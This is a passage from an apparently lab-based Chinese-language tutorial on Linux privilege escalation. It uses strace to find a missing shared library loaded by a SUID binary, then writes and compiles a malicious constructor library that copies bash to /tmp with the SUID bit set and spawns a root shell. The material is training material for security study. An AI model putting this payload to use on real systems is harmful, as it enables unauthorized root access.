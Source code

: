 
```

### 2.选择```/usr/local/bin/suid-so```这个SUID文件，追踪它的动态库调用：

> strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"

```
TCM@debian:/tmp$ strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

```

发现缺少```/home/user/.config/libcalc.so```这个动态链接库

### 3.创建对应的文件夹

> mkdir /home/user/.config

### 4.把下面c代码保存到上面的文件夹中,保存成动态链接库的c文件

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

### 5.编译成动态链接库

> gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c

```
TCM@debian:~/.config$ gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
TCM@debian:~/.config$ ls
libcalc.c  libcalc.so
